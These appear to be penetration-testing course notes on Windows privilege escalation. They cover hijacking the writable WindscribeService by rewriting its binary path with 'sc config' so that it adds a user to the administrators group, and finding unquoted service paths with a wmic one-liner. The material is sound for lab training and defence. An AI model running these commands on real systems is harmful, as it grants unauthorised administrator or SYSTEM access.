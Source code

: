 ### Weak Service Permissions
#### Reviewing Sharpup again
Checking *sharpup* we see *WindscribeService* is potentially misconfigured.

#### Checking Permissions with AccessChk
Next, we'll use [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite to enumerate permissions on the service.
We will use the flags:
`-q omit banner`
`-u supress errors`
`-v verbose`
`-c specify name of windows service`
`-w show objects with only write access`
```cmd-session
accesschk.exe /accepteula -quvcw WindscribeService
```
Here we can see that all Authenticated Users have [SERVICE_ALL_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights) rights over the service, which means full read/write control over it.

#### Changing the Service Binary Path
We can use our permissions to change the binary path maliciously.
```cmd-session
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```
#### Restarting Service
```cmd-session
sc stop WindscribeService
```
```cmd-session
sc start WindscribeService
```

***Clean it up!***

### Unquoted Service Path
When a service is installed, the registry configuration specifies a path to the binary that should be executed on service start. If this binary is not encapsulated within quotes, Windows will attempt to locate the binary in different folders. Take the example binary path below.
```shell-session
C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
```
Windows will decide the execution method of a program based on its file extension, so it's not necessary to specify it. Windows will attempt to load the following potential executables in order on service start, with a .exe being implied:

- `C:\Program`
- `C:\Program Files`
- `C:\Program Files (x86)\System`
- `C:\Program Files (x86)\System Explorer\service\SystemExplorerService64`
If we can create the following files, we would be able to hijack the service binary and gain command execution in the context of the service, in this case, `NT AUTHORITY\SYSTEM`.
- `C:\Program.exe\`
- `C:\Program Files (x86)\System.exe`
#### Searching for Unquoted Service Paths
```cmd-session
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```
